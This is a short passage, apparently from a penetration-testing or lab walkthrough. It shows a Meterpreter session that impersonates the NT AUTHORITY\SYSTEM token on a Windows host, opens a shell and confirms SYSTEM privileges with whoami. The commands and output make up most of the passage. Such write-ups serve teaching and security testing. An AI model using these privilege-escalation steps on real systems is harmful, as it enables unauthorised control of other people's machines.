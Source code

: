 OK, we already have a Token available of *NT AUTHORITY\SYSTEM*.
To perform the token impersonating we do the following:

```bash
meterpreter > impersonate_token "NT AUTHORITY\\SYSTEM"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[-] No delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM


meterpreter > shell
Process 3452 created.
Channel 3 created.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Users\Sarah\Desktop> whoami
nt authority\system
```

Success! 
We have our SYSTEM shell.
